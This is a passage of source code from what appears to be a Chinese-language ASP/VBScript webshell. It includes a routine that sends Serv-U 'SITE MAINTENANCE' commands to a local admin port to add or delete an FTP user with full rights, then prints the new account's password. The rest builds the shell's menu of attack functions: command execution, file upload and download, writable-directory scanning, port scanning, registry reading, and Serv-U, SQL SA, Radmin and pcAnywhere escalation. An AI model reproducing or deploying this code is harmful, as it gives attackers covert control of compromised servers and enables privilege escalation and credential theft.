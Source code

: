 "-RatioDown=1" & vbcrlf & "-RatiosCredit=0" & vbcrlf & "-QuotaCurrent=0" & vbcrlf & "-QuotaMaximum=0" & vbcrlf & _
"-Maintenance=System" & vbcrlf & "-PasswordType=Regular" & vbcrlf & "-Ratios=None" & vbcrlf & " Access=" & tpath & "\|RWAMELCDP" & vbcrlf
On Error Resume Next
Set xPost = CreateObject("MSXML2.XMLHTTP")
xPost.Open "POST", "http://127.0.0.1:"& port &"/leaves", True
xPost.Send(leaves)
Set xPOST=nothing
j ("命令成功执行！！FTP 用户名: " & tuser & " " & "密码: " & tpass & " 路径: " & tpath & " :)<br><BR>")
else
leaves = "User " & Usr & vbcrlf
leaves = leaves & "Pass " & pwd & vbcrlf
leaves = leaves & "SITE MAINTENANCE" & vbcrlf
leaves = leaves & "-DELETEUSER" & vbcrlf & "-IP=0.0.0.0" & vbcrlf & "-PortNo=" & tport & vbcrlf & " User=" & tuser & vbcrlf
Set xPost3 = CreateObject("MSXML2.XMLHTTP")
xPost3.Open "POST", "http://127.0.0.1:"& port &"/leaves", True
xPost3.Send(leaves)
Set xPOST3=nothing
end if
End Function
Function MainMenu()
j"<script language=javascript>function MM_show(s){if (document.getElementById(s).style.display==""""){document.getElementById(s).style.display=""none"";}else{document.getElementById(s).style.display="""";}}</script><table width='100%' cellspacing='0' cellpadding='0'><tr><td height='5'></td></tr><tr><td><center><font color=pink><font size=1.0>"&mName&"</font></font></center><hr color=#424242 size=1 ></td></tr>":If ObT(0,1)=" ×" Then
j"<tr><td height='24'>无权限</td></tr>"
Else
j"<tr><td onClick=""MM_show('menud')""><input onMouseOver=""this.style.cursor='hand'"" type=button value='Disk & Files'></td></tr><tr><td height=4></td></tr><tr><td valign=""top"" align=center><table border=0  id=menud style=""display='none'"">"
Set ABC=New LBF:j ABC.ShowDriver():Set ABC=Nothing
j"</table></td></tr><tr><td valign=""top"" align=center><table border=0><tr><td id=d width=95 onMouseOver=""this.style.backgroundColor='#696969'"" onMouseOut=""this.style.backgroundColor='#121212'""><a href='javascript:ShowFolder("""&RePath(WWWRoot)&""")'><font face='wingdings'>8</font> 站点根目录"&ef
j cdx&"<a href='javascript:ShowFolder("""&RePath(RootPath)&""")'>"&cxd&" 本程序目錄"&ef
j cdx&"<a href='?Action=goback' target='FileFrame'>"&cxd&" 回上级目录"&ef
j cdx&"<a href='javascript:FullForm("""&RePath(Session("FolderPath")&"\Newfile")&""",""NewFolder"")'>"&cxd&" 新建--目錄"&ef
j cdx&"<a href='?Action=EditFile' target='FileFrame'>"&cxd&" 新建--文本"&ef
j cdx&"<a href='?Action=UpFile' target='FileFrame'>"&cxd&" 上传--文件"&ef
j cdx&"<a href='?Action=upload' target='FileFrame'>"&cxd&" 下载--文件"&ef
j cdx&"<a href='?Action=Cmd1Shell' target='FileFrame'>"&cxd&" <font color=red>执行---CMD</font>"&ef
j cdx&"<a href='?Action=cmdx' target='FileFrame'>"&cxd&" 执行--CMD2"&ef
j cdx&"<a href='?Action=ScanDriveForm' target='FileFrame'>"&cxd&" 磁盘--权限"&ef
j cdx&"<a href='?Action=CustomScanDriveForm' target='FileFrame'>"&cxd&" 可写--目录"&ef
j cdx&"<a href='?Action=php' target='FileFrame'>"&cxd&" 脚本--探测"&ef
j cdx&"<a href='?Action=PageAddToMdb' target='FileFrame'>"&cxd&" 服务器打包"&ef&"</table><hr></td></tr>"
End If
j"</tr><tr><td height=4></td></tr><tr><td onClick=""MM_show('menuc')""><input onMouseOver=""this.style.cursor='hand1'"" type=button value='Information'></td></tr><tr><td height=4></td></tr><tr><td valign=""top"" align=center><table border=0  id=menuc style=""display=''"">"
j cdx&"<a href='?Action=Course' target='FileFrame'>"&cxd&" 用户__账号"&ef
j cdx&"<a href='?Action=getTerminalInfo' target='FileFrame'>"&cxd&" 端口__网络"&ef
j cdx&"<a href='?Action=Alexa' target='FileFrame'>"&cxd&" 组件__支持"&ef
j cdx&"<a href='?Action=Servu' target='FileFrame'>"&cxd&" Servu-执行"&ef
j cdx&"<a href='?Action=suftp' target='FileFrame'>"&cxd&" Su---FTP版"&ef
j cdx&"<a href='?Action=MMD' target='FileFrame'>"&cxd&" SQL-本地SA"&ef
j cdx&"<a href='?Action=radmin' target='FileFrame'>"&cxd&" Radmin执行"&ef
j cdx&"<a href='?Action=pcanywhere4' target='FileFrame'>"&cxd&" Pcanywhere"&ef
j cdx&"<a href='?Action=ScanPort' target='FileFrame'>"&cxd&" <font color=red>端口扫描器</font>"&ef
j cdx&"<a href='?Action=ReadREG' target='FileFrame'>"&cxd&" 读取注册表"&ef